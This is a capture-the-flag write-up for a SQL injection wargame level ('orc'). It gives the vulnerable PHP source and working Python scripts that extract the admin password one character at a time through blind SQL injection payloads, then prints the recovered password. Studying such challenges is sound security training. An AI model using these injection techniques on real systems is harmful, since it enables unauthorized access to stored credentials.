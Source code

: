 Source:

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

In this challenge, we would have a general overview of **Blind SQL Injection**.
Tutorial: [Blind SQLi](https://portswigger.net/web-security/sql-injection/blind)

The program above's divided into 2 main section:
- The first one is a basic SQLi and easy to pass
- The second is what we have to solve. 
We should rely on the first part to guess the password to complete the chall.

We try guess the payload to see whether it is accomplished or not (if SQLi in the first query "kick in" successful, "Hello admin" will be printed on the screen).

Try guess the length, insert **length(pw)** function (try **len()** but not working, so it maybe MySQL ), then comment out all the remaining code: `try_payload ="pw=123' or length(pw) < 10 -- char(32)"`.

The page return "Hello admin", so the length of password is less than 10 characters.

So we ought to guess the exact length of password with similar query and try from range 1 to 9, append the query into url and loop it. This python code below will solve this:
```python
from requests import *
# try_payload ="pw=123' or length(pw) < 10 -- char(32)"
cookie = dict(PHPSESSID="sftmn1nhpsjgke59r39nfn03nv")

for i in range (10):
    payload = "?pw=123' or length(pw) = " + str(i) + " -- char(32)"
    a = get("https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php" + payload, cookies=cookie)
    if "Hello admin" in a.text:
        print(payload)
        print("The length of password is", i)
```

Note: 
- This page require login method, so make sure we have cookie to maintain our access and get into the chall. 
- Get cookie by Developer Mode -> Storage(Firefox)/ Application(Edge, Chrome, ...).

Result:

![image](https://user-images.githubusercontent.com/48288606/154270629-4c5063ae-0dbf-4821-968f-982eaf11680d.png)

With the shown result, we will guess which character is stayed in each position. We can take advantages of **ascii()** and **substring()** function to make a comparison the password with the character we test. We try all the printable character in ascii code (from 32-> 126). Use this pattern to brute-force all the case of available password: `?pw=123' or ascii(substring(pw, {position}, 1)) = {ascii_number} -- char(32)`

The possibility of the chall is contingent on the complex of the password so this chall still be reasonable. The code below will brute-force the password we need.


```python
from requests import *
try_payload ="pw=123' or length(pw) < 10 -- char(32)"
cookie = dict(PHPSESSID="sftmn1nhpsjgke59r39nfn03nv")


adminPassword = ""

print("==============================================================")

for i in range (1,9):
    for j in range(32, 127):
        payload = "?pw=123' or ascii(substring(pw, " + str(i) + ", 1)) = '" + str(j) + "' -- char(32)"
        a = get("https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php" + payload, cookies=cookie)
        if "Hello admin" in a.text:
            print(payload)
            print("The position of ", i, "has value: ", chr(j))
            print("==============================================================")
            adminPassword += chr(j)
            break

print("Password of Administrator: ", adminPassword)
```
We get the full password for admin login:

![image](https://user-images.githubusercontent.com/48288606/154270130-49cda9fc-b71b-4e77-a935-bdf748949920.png)


Filter(pw): `prob` | `_` | `.` | `()`

PW: `095a9852` 

Payload: `?pw=095a9852`
